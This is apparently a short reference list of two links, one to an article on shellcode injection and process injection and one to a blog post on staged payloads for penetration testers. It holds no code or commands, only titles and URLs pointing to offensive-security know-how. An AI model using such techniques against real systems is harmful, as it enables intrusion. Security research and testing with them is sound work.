[Shellcode injector - @spotheplanet](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)

[Staged Payloads - What Pen Testers Should Know - Raphael Mudge](https://blog.cobaltstrike.com/2013/06/28/staged-payloads-what-pen-testers-should-know/)
